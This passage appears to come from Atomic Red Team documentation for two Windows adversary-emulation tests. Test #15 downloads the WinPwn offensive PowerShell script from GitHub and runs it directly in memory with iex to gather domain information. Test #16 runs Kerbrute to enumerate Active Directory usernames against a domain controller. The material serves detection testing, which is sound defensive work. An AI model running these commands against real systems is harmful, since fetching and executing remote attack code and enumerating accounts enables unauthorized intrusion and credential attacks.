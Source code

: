 




<br/>
<br/>

## Atomic Test #15 - WinPwn - generaldomaininfo
Gathers general domain information using the generaldomaininfo function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ce483c35-c74b-45a7-a670-631d1e69db3d






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
generaldomaininfo -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #16 - Kerbrute - userenum
Enumerates active directory usernames using the userenum function of Kerbrute

**Supported Platforms:** Windows


**auto_generated_guid:** f450461c-18d1-4452-9f0d-2c42c3f08624





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Domain | Domain that is being tested against | string | $env:USERDOMAIN|
| DomainController | Domain Controller that is being tested against | string | $env:UserDnsDomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe userenum -d #{Domain} --dc #{DomainController} "PathToAtomicsFolder\..\ExternalPayloads\username.txt"
```
